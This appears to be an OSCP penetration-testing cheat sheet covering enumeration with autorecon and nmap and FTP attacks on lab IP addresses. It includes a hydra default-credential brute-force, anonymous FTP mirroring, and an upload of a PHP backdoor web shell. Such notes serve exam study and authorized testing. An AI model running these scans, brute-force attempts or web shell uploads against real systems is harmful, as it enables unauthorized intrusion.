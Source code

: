 # OSCP Cheat sheet

# Enumeration

### Autorecon

```jsx
sudo $(which autorecon) --only-scans-dir 192.168.193.153
```

### nmap

```jsx
sudo nmap -p- -Pn -vvv --defeat-rst-ratelimit -oN nmap_all 192.168.193.153
```

```jsx
cat nmap_all | grep 'open' | awk '{ print $1 }' | awk '{print ($0+0)}' | sed -z 's/\n/,/g;s/,$/\n/'
```

```jsx
sudo nmap -v -A -Pn -oN nmap_A -p {ports} 192.168.193.153
```

```jsx
sudo nmap -p- -A --open -vvv dc01
```

```jsx
sudo nmap -sV -Pn -v -p 445 --script "vuln" 192.168.50.124
```

## FTP

```jsx
ftp -aA4 {IPv4}
```

```jsx
wget -m ftp://anonymous:anonymous@10.10.10.98
```

```jsx
hydra -V -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt 192.168.157.46 ftp
```

```jsx
user
```

<aside>
💡 In FTP, binaries in ASCII mode will make the file not executable. Set the mode to `binary`.

</aside>

```jsx
echo "test" > test.txt
put test.txt
put ~/Desktop/share/php/html-php-backdoor.php html-php-backdoor.php
```

